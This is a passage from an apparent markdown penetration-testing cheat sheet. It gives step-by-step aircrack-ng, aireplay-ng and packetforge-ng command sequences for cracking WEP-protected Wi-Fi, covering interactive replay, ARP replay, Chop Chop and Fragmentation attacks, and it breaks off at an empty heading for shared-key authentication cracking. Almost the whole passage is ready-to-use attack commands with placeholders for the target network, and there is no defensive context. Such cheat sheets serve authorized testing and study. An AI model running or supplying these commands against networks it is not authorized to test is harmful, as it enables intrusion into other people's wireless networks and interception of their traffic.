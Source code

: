 ```
airmon-ng start wlan0
airodump-ng -c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
#What’s my mac?
macchanger --show wlan0mon
aireplay-ng -1 0 -a <BSSID> -h <OurMac> -e <ESSID> wlan0mon
aireplay-ng -2 -p 0841 -c FF:FF:FF:FF:FF:FF -b <BSSID> -h <OurMac> wlan0mon
aircrack-ng -b <BSSID> <PCAP_of_FileName>
```

### <mark style="color:orange;">ARP Replay Attack</mark>

```
airmon-ng start wlan0
airodump-ng -c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
#What’s my mac?
macchanger --show wlan0mon
aireplay-ng -3 -x 1000 -n 1000 -b <BSSID> -h <OurMac> wlan0mon
aircrack-ng -b <BSSID> <PCAP_of_FileName>
```

### <mark style="color:orange;">Chop Chop Attack</mark>

```
airmon-ng start wlan0
airodump-ng -c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
#What’s my mac?
macchanger --show wlan0mon
aireplay-ng -1 0 -e <ESSID> -a <BSSID> -h <OurMac> wlan0mon
aireplay-ng -4 -b <BSSID> -h <OurMac> wlan0mon
 #Press ‘y’ ;
packetforge-ng -0 -a <BSSID> -h <OurMac> -k <SourceIP> -l <DestinationIP> -y <XOR_PacketFile> -w <FileName2>
aireplay-ng -2 -r <FileName2> wlan0mon
aircrack-ng <PCAP_of_FileName>
```

### <mark style="color:orange;">Fragmentation Attack</mark>

```
airmon-ng start wlan0
airodump-ng -c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
#What’s my mac?
macchanger --show wlan0mon
aireplay-ng -1 0 -e <ESSID> -a <BSSID> -h <OurMac> wlan0mon
aireplay-ng -5 -b <BSSID> -h < OurMac > wlan0mon
#Press 'y' ;
packetforge-ng -0 -a <BSSID> -h < OurMac > -k <SourceIP> -l <DestinationIP> -y <XOR_PacketFile> -w <FileName2>
aireplay-ng -2 -r <FileName2> wlan0mon
aircrack-ng <PCAP_of_FileName>
```

### <mark style="color:orange;">SKA (Shared Key Authentication) Type Cracking</mark>
